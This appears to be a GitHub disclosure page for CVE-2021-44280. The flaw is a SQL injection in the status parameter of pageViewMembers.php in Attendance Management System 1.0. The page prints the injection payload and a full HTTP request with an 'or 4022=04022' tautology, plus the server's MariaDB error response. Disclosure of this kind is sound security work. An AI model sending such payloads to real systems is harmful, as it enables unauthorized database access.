 ## [CVE-2021-44280](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44280)

## [Vendor](https://www.sourcecodester.com/php/14173/attendance-management-system.html#comment-96757)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44280/docs/Screenshot%202021-12-06%20170411-error.png)

## Description:
The status parameter from pageViewMembers.php on Attendance Management System 1.0 appears to be vulnerable to SQL injection attacks from INSIDE. The payload 011011100111010100110001001100010111001101100101011000110111010101110010001100010111010001111001%27or%271=1 was submitted in the status parameter, and a database error message was returned. The attacker can perform different attacks against the system. STATUS: Risk LOW - MEDIUM

## SQl Request:

```mysql
GET /Attendance-Management-System/admin/pageViewMembers.php?status=164054629%20or%204022%3d04022 HTTP/1.1
Host: 192.168.10.22
Cookie: Attendance_Management_System_rememberMe=c0e024d9200b5705bc4804722636378a; Attendance_Management_System=e8oqed0r866tojucn8g7ikd35c
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.10.22/Attendance-Management-System/admin/pageHome.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
## SQL Response:

```mysql
HTTP/1.1 200 OK
Date: Mon, 06 Dec 2021 11:49:03 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 13970

<!DOCTYPE html>
<!--[if lt IE 7]> <html class="no-js lt-ie9 lt-ie8 lt-ie7"> <![endif]-->
<!--[if IE 7]> <html class="no-js lt-ie9 lt-ie8"> <![endif]-->
<!--[if IE 8]> <html cla
...[SNIP]...
<script>
               $j(function(){
                   show_notification({"message":"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1<pre class=\"ltr\">
...[SNIP]...
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-44280)

## Proof and Exploit
[href](https://streamable.com/ap25sm)
